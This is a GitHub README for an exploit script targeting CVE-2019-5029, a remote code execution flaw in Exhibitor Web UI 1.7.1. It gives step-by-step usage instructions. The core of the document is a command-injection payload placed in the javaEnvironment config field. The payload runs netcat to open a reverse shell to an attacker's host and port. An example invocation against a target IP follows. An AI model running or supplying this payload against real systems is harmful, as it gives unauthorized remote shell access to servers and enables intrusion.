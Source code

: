 # Exhibitor-RCE
Exhibitor Web Ui 1.7.1 RCE, CVE-2019-5029

## Step 1:

$ git clone https://github.com/thehunt1s0n/Exihibitor-RCE/

## Step 2:

$ cd Exihibitor-RCE/

## Step 3 (optional):

You might need to edit json data payload in the script. To do that simply capture the request using burpsuite when comiting the changes in the config tab of exihibitor and copy pasting into the curl command in the script.

<div style="text-align:center;">
  <img src="https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/burpsuite_capture.png" alt="gif 1" width="500"/>
</div>

Make sure to change the javaEnvironment with the following:

"javaEnvironment":"$(/bin/nc -e /bin/sh '$ATTACKER_HOST' '$ATTACKER_PORT' &)"


## Step 4:

./exploit.sh <host> <port> <attacker_host> <attacker_port>

Example:

$ ./exploit.sh 192.168.197.98 8080 192.168.45.187 8080

![gif](https://raw.githubusercontent.com/thehunt1s0n/Exihibitor-RCE/main/media/Exihibitor_capture.gif)
